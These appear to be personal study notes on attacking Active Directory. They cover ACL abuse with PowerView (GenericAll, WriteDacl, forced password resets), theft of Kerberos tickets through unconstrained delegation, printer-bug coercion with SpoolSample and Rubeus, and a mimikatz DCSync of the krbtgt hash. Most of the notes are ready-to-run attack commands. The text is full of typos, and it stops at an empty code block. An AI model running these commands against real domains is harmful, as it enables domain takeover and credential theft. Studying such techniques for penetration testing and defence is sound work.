 ## AD Object Security Permissions

In active Drictory, access to an object is controlled through a Discretionary Access Control List(DACL), which consists of a series of Access Control Entries(ACE).  When multiple ACE's are present, their order is important. If a deny ACE comes before an allow ACE, the dent takes precedence. 

The ACE is stored arccording to the Secutiry Descriptor Definition Language(SDDL).
- ace_type:designates whether the ACE allows or denies permissions
- ace_flags:related to inheritance on child objects
- ace_rights
- object_guid
- inherit_object_guid
- account_sid:SID of the object

```
(A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0)
```
We can reference the [microsoft doc](https://docs.microsoft.com/en-us/windows/win32/secauthz/generic-access-rights) to read/understand the access rights

we cab enumernate the AD OBJ with Get-ObjectAcl, the foreach resolve the SID through ConvertFrom-SID

```
PS C:\tools> Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

#### Generuic All abuse

import powerview
```
PS C:\tools> . .\powerview.ps1
```

The GenericAll access right, which gives full control of the targeted object. 

We can get enumerate all domain users that our current account has GenericAll rights to it, or we can replace **Get-DomainGroup** to find a group 

```
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID
$_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

if we found an account that we have access to it, we can update the password, we can do the samething with **ForceChangePassword** and **AllExtendedRights** access rights to change the password of a user account in a similar way without supplying the old password.
```
PS C:\tools> net user testservice1 pass /domain
```

if our user has **WriteDacl** permission to a AD object, we can use Add-DomainObjectAcl PowerView method to apply additional access rights
such as GenericAll, GenericWrite, or even DCSync if the targeted object is the domain object

```
PS C:\tools> Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```
#### Kerberos Unconstrained Delegation

When the user requests access for a service ticket against a service that uses unconstrained
delegation, the request also includes a forwardable TGT. Since the frontend service receives a forwardable TGT, it can perform authentication on behalf of
the user to any service. this means that if we succeed in compromising the web server service and a user authenticates to it, we can steal the user’s TGT and authenticate to any service.

Identify Unconstrained computer
```
PS C:\tools> Get-DomainComputer -Unconstrained
```
dump the tickets
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

identify the admin TGT, and ptt, and exit sapwn a cmd shell with the ticket
```
mimikatz # kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
mimikatz # exit

C:\Tools> C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd
```
#### force \pipe\spoolss authenticatin

we can to force a Domain Controller to connect back to a system configured with unconstrained
delegation, using the spoolSample tool

- 1.verify if the name pipe exists
```
PS C:\Tools> dir \\cdc01\pipe\spoolss
```

- 2.on the Unconstrained server setup monitor to catch the incoming tgt
```
C:\Tools> Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

- 3.trigger the print spooler change notification with SpoolSample.exe
```
C:\Tools> SpoolSample.exe CDC01 APPSRV01
```

- 4.inject ticket to memeory
```
C:\Tools> Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```
- 5.dcsync, dump hashs
```
mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

#### Constrained Delegation
Constrained delegation is configured on the computer or user object. It is set through the msdsallowedtodelegateto
property by specifying the SPNs the current object is allowed constrained delegation against.

```
```
p625
